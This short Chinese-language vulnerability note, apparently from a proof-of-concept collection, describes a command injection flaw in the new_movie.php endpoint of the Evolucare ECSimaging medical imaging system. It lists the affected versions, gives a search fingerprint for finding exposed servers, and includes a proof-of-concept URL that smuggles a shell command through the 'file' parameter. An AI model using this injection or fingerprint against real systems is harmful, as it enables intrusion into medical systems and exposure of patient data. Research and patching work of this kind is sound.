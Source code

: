# Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

# Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](/images/202205241447357.png)

验证POC

```
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![](/images/202205241447391.png)

